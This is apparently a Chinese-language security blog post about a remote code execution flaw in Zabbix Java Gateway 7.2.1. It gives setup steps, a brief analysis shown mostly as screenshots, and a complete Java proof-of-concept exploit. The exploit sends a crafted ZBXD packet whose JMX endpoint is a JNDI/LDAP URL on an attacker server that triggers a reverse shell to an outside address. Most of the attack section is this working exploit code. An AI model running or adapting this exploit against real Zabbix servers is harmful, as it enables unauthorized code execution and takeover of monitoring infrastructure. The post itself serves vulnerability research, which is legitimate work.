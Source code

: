 # Zabbix Java Gateway RCE

  
  
&lt;!--more--&gt;  
## 0x00 环境搭建  
```bash  
wget https://cdn.zabbix.com/zabbix/sources/stable/7.2/zabbix-7.2.1.tar.gz  
apt install build-essential  
./configure --enable-java --prefix=/root/test  
make  
make install  
  
cd /root/test/sbin/zabbix_java  
./startup.sh  
```  
`default port 10052`  
## 0x01 漏洞分析  
`com.zabbix.gateway.ZabbixJMXConnectorFactory#connect()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501051056304.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501051111642.png)
`javax.management.remote.rmi.RMIConnector#connect()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501051114329.png)
## 0x02 POC  
JNDI   
https://github.com/X1r0z/JNDIMap  
POC  
```java  
package org.example;    
    
import java.io.ByteArrayOutputStream;    
import java.io.InputStream;    
import java.io.OutputStream;    
import java.net.Socket;    
import java.nio.ByteBuffer;    
import java.nio.ByteOrder;    
import java.nio.charset.StandardCharsets;    
    
public class  ZabbixJndiEvil{    
    
    public static byte[] createPacket(String requestType, String jmxEndpoint) throws Exception {    
        // Step 1: Create JSON Data    
        String jsonData = String.format(    
                &#34;{\&#34;request\&#34;: \&#34;%s\&#34;, \&#34;jmx_endpoint\&#34;: \&#34;%s\&#34;, \&#34;keys\&#34;: [\&#34;key1\&#34;, \&#34;key2\&#34;]}&#34;,    
                requestType, jmxEndpoint    
        );    
        byte[] jsonBytes = jsonData.getBytes(StandardCharsets.UTF_8);    
    
        // Step 2: Create Packet with Protocol Header and Data Length    
        ByteArrayOutputStream packetStream = new ByteArrayOutputStream();    
// Protocol Header (Assuming ZBXD\1)    
        packetStream.write(&#34;ZBXD\1&#34;.getBytes(StandardCharsets.UTF_8));    
    
        // Data length in little-endian format    
        ByteBuffer lengthBuffer = ByteBuffer.allocate(8);    
        lengthBuffer.order(ByteOrder.LITTLE_ENDIAN);    
        lengthBuffer.putLong(jsonBytes.length);    
        packetStream.write(lengthBuffer.array());    
    
        // JSON data    
        packetStream.write(jsonBytes);    
    
        return packetStream.toByteArray();    
    }    
    public static void sendPacket(String host, int port, byte[] packet) throws Exception {    
        // Step 3: Create a socket and connect to Zabbix Java Gateway    
        try (Socket socket = new Socket(host, port);    
             OutputStream outputStream = socket.getOutputStream();    
             InputStream inputStream = socket.getInputStream()) {    
    
            // Send the packet    
            outputStream.write(packet);    
            outputStream.flush();    
            System.out.println(&#34;Packet sent successfully!&#34;);    
    
            // Step 4: Read the response    
            ByteArrayOutputStream responseBuffer = new ByteArrayOutputStream();    
            byte[] buffer = new byte[4096];    
            int bytesRead;    
    
            while ((bytesRead = inputStream.read(buffer)) != -1) {    
                responseBuffer.write(buffer, 0, bytesRead);    
                if (inputStream.available() == 0) {    
                    break;    
                }    
            }    
    
            String response = responseBuffer.toString(String.valueOf(StandardCharsets.UTF_8));    
            System.out.println(&#34;Received response: &#34; &#43; response);    
    
        }    
    }    
    public static void main(String[] args) {    
        try {    
            // Configuration for the packet    
            String requestType = &#34;java gateway jmx&#34;;    
            String jmxEndpoint = &#34;service:jmx:rmi:///jndi/ldap://10.216.7.79:1389/Basic/ReverseShell/10.216.7.79/2333&#34;;    
    
            // Create the packet    
            byte[] packet = createPacket(requestType, jmxEndpoint);    
    
            // Send the packet to Zabbix Java Gateway at localhost:10052    
            sendPacket(&#34;10.211.55.29&#34;, 10052, packet);    
        } catch (Exception e) {    
            e.printStackTrace();    
        }    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501050054992.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501050054335.png)
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/zabbix-java-gateway-rce/  

